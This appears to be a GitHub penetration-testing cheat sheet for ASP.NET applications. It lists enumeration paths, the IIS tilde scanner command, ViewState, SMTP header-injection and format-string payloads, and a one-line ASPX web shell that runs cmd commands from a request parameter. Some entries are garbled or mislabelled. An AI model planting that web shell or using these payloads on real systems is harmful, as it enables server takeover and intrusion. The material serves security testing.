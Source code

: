 ## ENUMERATION
No need for me to say how important is enumeration! I list herein _additional_ directories and extentions to look for in a .NET application.
### Directories
  - C:\Windows\System32
  - \\Host\C$\Windows\System32
  - \\.\C:\Windows\System32
  - \\?\C:\Windows\System32
  - \\?\UNC\Host\C$\Windows\System32
  - C:\Windows\hh.exe == C:\Windows:$I30:$INDEX_ALLOCATION\hh.exe
  - C:\Windows\notepad.exe == C:\Windows\notepad.exe::$DATA
  - FileName.aspx == FileName.aspx:.jpg
  - http://hostname/*Resource.axd?d=\<resourceId\>&t=\<timestamp\>

Also take a look at the following reminders before you start your directory bruteforce:
  - Reserved: NUL, CON, AUX, PRN, COM, LPT
  - Endings: name = name… = name \\\
  - Case insensitivity
### Files Extensions
  - .asp
  - .aspx
  - .ashx
  - .xsd
  - .disco
  - .discomap
  - .wsdl
  - .wadl
  - .asmx
  - .xml
  - .config
  - .zip
  - .txt
  
## TECHNIQUES AND TRICKS
I wanted this list to be an exhaustive list of all vulnerabilities that are mentioned on the web to be of a special focus in ASP.NET applications, I myself have seen some and not all of them, and I guess they are common among .NET in general -you will recognize some of them to be valid for all types of backends too but I was not as keen to mention all of those.
### Short Names (IIS tilde bug)
The vulnerability is caused by a tilde character "~" in a GET or OPTIONS request, which could allow remote attackers to disclose 8.3 filenames (short names).
[IIS-ShortName-Scanner](https://github.com/irsdl/IIS-ShortName-Scanner)
`java –jar iis_shortname_scanner.jar [2=Show_Progress] [20=Threads] [Target_URL] > [OutFile]`
PS. ignore “global”, “master”, “default”, “aspnet” from results
### Viewstate
The ViewState is a mechanism built in to the ASP.NET platform for persisting elements of the user interface and other data across successive requests. The data to be persisted is serialized by the server and transmitted via a hidden form field. When it is posted back to the server, the ViewState parameter is deserialized and the data is retrieved. An attacker can modify the contents of the ViewState and cause arbitrary data to be deserialized and processed by the server. An attacker may be able to execute arbitrary code on the server by supplying a gadget chain. Also, if the ViewState contains any items that are critical to the server's processing of the request, then this may result in a direct security exposure.
Looking further into this vulnerability you would notice that it has many possible variations. As a simple first step you can start by testing if the ViewState is not encrypted simply by finding any viewstate decoder on the web (e.g. http://viewstatedecoder.azurewebsites.net/)
### Remote debugging
Since ASP.NET is a compiled application, it has certain debugging features. Microsoft allows you to use a remote debugger to work on a debug version of the application.  If this port is open on the Internet and is protected by a simple password, or there is no password at all, then it is possible to pick up a debugger session.
### SMTP Header Injection
No validation of the value that falls in the “To” header, it is possible to redirect the letter to another recipient. But that would be too simple and obvious, so validation occurs already at the .Net level. However, if you introduce a new Reply-To header — the answer address, many forms such as “Forgotten Password” often take the sending address from it, thus it is enough to embed carriage return and line feed characters and get the workload.

`From: rth@bieberdorf.edu (R.T. Hood)\n
To: tmh@immense-isp.com/r/nReply-to:hack@hack.ru
Date: Tue, Mar 18199714:36:14 PST
Message-Id: <rth031897143614-00000298@mail.bieberdorf.edu>
...
В итоге будет внедрен новый заголовок:
From: rth@bieberdorf.edu (R.T. Hood)
To: tmh@immense-isp.com
Reply-To: hack@hack.ru
Date: Tue, Mar 18199714:36:14 PST
Message-Id: <rth031897143614-00000298@mail.bieberdorf.edu>`
### Additional .NET-Specific Tricks
  1. Canonicalization attack
    Using environment variables to represent path - e.g. %windir%notepad.exe
    Trailing “.” - e.g. C:wondowsnotepad.exe.
    Create file - \\URL\<name>		\\URL\pipe\<name>
  2. LINQ injection
  3. Hash collusion: https://github.com/HybrisDisaster/aspHashDoS
#### Not-.NET-Specific
  1. XXE in DocX files
  2. Padding Oracle (cookies / viewstate …)
  3. Injection (sql with sqlNinja, js, html…)
  4. Format strings attack
    %n%n%n%n%n%n%n%n
    %s%s%s%s%s%s%s%s%s
    %d%d%d%d%d%d%d%d
  5. Serialization
  6. LFI
    <%@ Page Language="C#" %> <%@ Import Namespace="System.Diagnostics" %> <%= Process.Start( new ProcessStartInfo( "cmd","/c " + Request["c"] ) { UseShellExecute = false, RedirectStandardOutput = true } ).StandardOutput.ReadToEnd() %>
  7. Trace method
  8. Session fixation 
  9. Replay attacks
  10. CORS
 
## References
https://www.youtube.com/watch?v=HrJW6Y9kHC4 
https://cheatsheetseries.owasp.org/cheatsheets/DotNet_Security_Cheat_Sheet.html
https://resources.infosecinstitute.com/topic/net-penetration-testing-test-case-cheat-sheet/
https://www.business2community.com/cybersecurity/9-ways-hackers-exploit-asp-net-and-how-to-prevent-them-02353604
Positive technologies [PDF](https://www.google.com/url?sa=t&rct=j&q=&esrc=s&source=web&cd=&cad=rja&uact=8&ved=2ahUKEwiR5K7i-5T0AhUKh_0HHQM2CW0QFnoECAMQAQ&url=https%3A%2F%2Fwww.ptsecurity.com%2Fupload%2Fcorporate%2Fru-ru%2Fwebinars%2Fics%2FV.Kochetkov_breaking_ASP.NET.pdf&usg=AOvVaw1BQOnt5w4XQizf5Tosp201)
